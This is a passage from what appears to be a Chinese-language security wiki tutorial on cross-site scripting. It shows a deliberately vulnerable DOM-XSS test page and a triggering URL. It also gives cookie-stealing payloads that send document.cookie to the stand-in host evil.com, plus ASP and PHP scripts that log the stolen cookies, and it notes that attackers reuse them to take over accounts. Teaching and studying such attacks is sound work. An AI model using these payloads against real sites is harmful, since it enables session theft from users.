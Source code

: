 HTML 代码：

```plain
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```
将代码保存在 domXSS.html 中，浏览器访问：
```plain
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```
即可触发 XSS 漏洞。
## XSS 利用方式[¶](https://wiki.x10sec.org/web/xss-zh/#xss_3)

### Cookies 窃取[¶](https://wiki.x10sec.org/web/xss-zh/#cookies)

攻击者可以使用以下代码获取客户端的 Cookies 信息：

```plain
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```
在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：
```plain
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```

```plain
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```
攻击者在获取到 Cookies 之后，通过修改本机浏览器的 Cookies，即可登录受害者的账户。
### 会话劫持[¶](https://wiki.x10sec.org/web/xss-zh/#_1)
